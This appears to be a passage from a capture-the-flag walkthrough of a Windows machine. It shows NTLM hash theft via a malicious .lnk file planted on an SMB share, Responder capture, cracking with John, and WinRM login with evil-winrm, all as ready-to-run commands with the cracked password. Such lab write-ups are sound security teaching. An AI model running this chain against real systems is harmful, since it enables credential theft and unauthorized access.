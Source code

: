 We have found a user with default password.

Trying to run bloodhound with this user, we can notice that this user is limitated. It's a Rabbit hole!

### NTLM Theft

If we cannot find another initial access and have access to an SMB share, we can consider uploading a file to steal NTLM user credentials if the file is opened by someone.

Using the tool `ntlm_theft`, create the file.

```bash
python3 ntlm_theft.py -g modern -s 10.23.52.142 -f meeting
```

Start responder on our machine

```bash
sudo responder -I tun0
```

Lastly upload the file into SMB share from SMB share session.

```bash
put meeting.lnk
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now  that we have AUTOMATE hash, we can try to crack it.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt automate_ntlm.txt

Passw0rd1        (AUTOMATE)    
```

Try to access it through WinRM and get user flag.

```bash
evil-winrm -i 10.10.184.120 -u 'AUTOMATE' -p 'Passw0rd1'
```

```bash
more C:\Users\automate\Desktop\user.txt
```
